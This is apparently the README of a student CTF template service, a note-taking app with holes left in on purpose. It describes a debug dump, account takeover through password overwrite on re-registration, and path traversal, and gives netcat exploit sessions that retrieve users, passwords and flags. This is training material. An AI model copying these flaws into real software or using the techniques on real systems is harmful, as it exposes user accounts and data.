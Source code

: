 n0t3b00k example service
====================
Example service to provide students a project strucutre. n0t3b00k is a simple service that allows users to register, login and save/retrieve notes. 


# Vulnerabilities

Please keep track of your intended vulnerabilities here:

## Debug enabled

- Category: Misconfiguration
- Difficulty: Easy

When `self.debug` is set to `True`, the `dump` command will list all users and their notes. 

## Account Takeover

- Category: Authentication
- Difficulty: Medium

When registering a new user, the service does not check if the user already exists and simply overwrites the password (`self.users[reg_user] = reg_pw`). The list of existing users can be obtained with the `user` command.

## Arbitrary Read or Write 

- Category: Path traversal
- Difficulty: hard?

The `FilesystemDict` uses user-supplied input when constructing the file paths. This could be used to write JSON-encoded data to any files. The impact has to be further analyzed, but this might lead to another account takeover (overwrite the password for other users) or flag access (reading the `notes` files).

*Note:* Without a proper impact analysis, we would classify this issue as a `unintended` vulnerability. Please try to keep such issues to a minimum, but document them nonetheless.

# Exploits

For each vulnerability, you should have a working example exploit ready! 

## Debug enabled:

Connect to the service and run `dump`:

```
gehaxelt@LagTop ~> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> dump
Users:
test:test
foo:bar
     Note 0:acbd18db4cc2f85cedef654fccc4a4d8:foo
     Note 1:37b51d194a7513e45b56f6524f2d51f2:bar
     Note 2:acbd18db4cc2f85cedef654fccc4a4d8:foo
4FOBMO10HWLC:EDPWN79U2KNL
I4K3P0SK3PST:CK5FALD39Y0S
B70YKMW72KUR:79Y5IM7FD7O8
GB7QC0DKYXPS:89TY8HI6OCBA
NXPTITQUSN2M:WYIWSGRZNKTX
6699DPYPAQDL:7IFEPP3P3LBI
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
MPG81XWFHNE8:H8KP8VECBQOR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
QN973IXF53HT:9BUVY6JNMGIW
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
UI2WTY7E7KC5:87SB830QHVX3
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XXPLIXZ9ZN1Q:F88L3J4GA2LE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
N43LU1348D19:YWT9TFCSVA2T
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
3DP6COPE6GMX:OI9437MJORZR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
I8ZUNTWZ0Y0Q:B3AI1LN9SAAE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
JUACZ5J3D475:5RNZ1ETOFBS6
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
KGFZNGHROLUS:05826L6X39XM
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
FV9VM13K8MGF:POUIW5CM6PY2
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XAHOKR4QD63O:VENSD82XO1XM
     Note 0:199480a3640248d5ea679b596d91c350:SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

The flags are in the output.

## Account Takeover

Connect to the service and use the `user` command to obtain a list of users:

```
gehaxelt@LagTop ~ [130]> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> user
User 0: test
User 1: foo
User 2: 4FOBMO10HWLC
User 3: I4K3P0SK3PST
User 4: B70YKMW72KUR
User 5: GB7QC0DKYXPS
User 6: NXPTITQUSN2M
User 7: 6699DPYPAQDL
User 8: MPG81XWFHNE8
User 9: QN973IXF53HT
User 10: UI2WTY7E7KC5
User 11: XXPLIXZ9ZN1Q
User 12: N43LU1348D19
User 13: 3DP6COPE6GMX
User 14: I8ZUNTWZ0Y0Q
User 15: JUACZ5J3D475
User 16: KGFZNGHROLUS
User 17: FV9VM13K8MGF
User 18: XAHOKR4QD63O
```

Use the username(s) and the `reg` command to set a different password. Next, `log`in as the user, `list` their notes and obtain the flag:

```
> reg XAHOKR4QD63O foo
User successfully registered
> log XAHOKR4QD63O foo
Successfully logged in!
> list 
Note 0: 199480a3640248d5ea679b596d91c350
> get 199480a3640248d5ea679b596d91c350
SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

## Arbitrary Read or Write

TODO: None developed yet.

=========================================================

# Usage

Use this repository as the base structure for your service. Please keep the directory structure and the following required files:

- `README.md` with a description of your vulnerabilities and exploits.
- `LICENSE` with the MIT
- `.gitignore` files exclude directories or files from being committed.
- `.dockerignore` files exclude directories or files from being tracked by the docker daemon.
- `.env` files used by docker-compose to assign a unique project-name.
- `docker-compose.yml` files to manage your service or checker containers
- `Dockerfile` with commands to build your service

# Required changes

You'll probably want to through all of these files and replace `n0t3b00k` with your service's name accordingly. 